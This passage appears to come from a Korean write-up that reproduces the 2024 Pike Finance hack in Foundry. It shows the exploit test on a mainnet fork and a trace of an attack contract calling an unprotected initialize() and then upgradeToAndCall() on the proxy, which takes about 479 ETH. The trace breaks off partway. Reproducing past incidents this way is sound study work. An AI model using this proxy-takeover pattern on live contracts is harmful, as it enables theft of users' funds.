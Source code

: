 ```solidity
        vm.createSelectFork("https://rpc.ankr.com/eth", blocknum);
        
        // hacker 생성
        hacker = payable(vm.addr(0x1));
        vm.label(hacker, "hacker");
        vm.label(0xFC7599cfFea9De127a9f9C748CCb451a34d2F063, "PikeFinanceProxy");
        vm.deal(hacker, 0);
    }

    function testExploit() public {
        vm.startPrank(hacker);
        console.log("Before Hacker balance: ", hacker.balance);

        // 공격 수행
        attackcontractInstance = new AttackContract(hacker, PikeFinanceProxy);
        attackcontractInstance.attack();

        console.log("After Hacker balance: ", hacker.balance);
        vm.stopPrank();
    }
}
```

**실행 결과**

```bash
➜  PikeFinance_2024-04 git:(master) ✗ forge test --mc Exploit -vvvv
[⠊] Compiling...
[⠘] Compiling 1 files with Solc 0.8.15
[⠃] Solc 0.8.15 finished in 1.72s
Compiler run successful!

Ran 1 test for test/PikeFinance.t.sol:Exploit
[PASS] testExploit() (gas: 343691)
Logs:
  Before Hacker balance:  0
  After Hacker balance:  479393838338750964434

Traces:
  [343691] Exploit::testExploit()
    ├─ [0] VM::startPrank(hacker: [0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf])
    │   └─ ← [Return] 
    ├─ [0] console::log("Before Hacker balance: ", 0) [staticcall]
    │   └─ ← [Stop] 
    ├─ [214630] → new AttackContract@0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4
    │   └─ ← [Return] 849 bytes of code
    ├─ [61611] AttackContract::attack()
    │   ├─ [40247] PikeFinanceProxy::initialize(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 20, 20)
    │   │   ├─ [35325] 0xb30c120Eb92c120bF11B358b4B9961E6679b6ae7::initialize(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 20, 20) [delegatecall]
    │   │   │   ├─ emit Initialized(: 1)
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Return] 
    │   ├─ [17020] PikeFinanceProxy::upgradeToAndCall(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 0x51cff8d90000000000000000000000007e5f4552091a69125d5dfcb7b8c2659029395bdf)
    │   │   ├─ [16604] 0xb30c120Eb92c120bF11B358b4B9961E6679b6ae7::upgradeToAndCall(AttackContract: [0xa5E4A93e61fF98e988ad9dae6169fc6944CC70E4], 0x51cff8d90000000000000000000000007e5f4552091a69125d5dfcb7b8c2659029395bdf) [delegatecall]
    │   │   │   ├─ [168] AttackContract::proxiableUUID() [staticcall]
```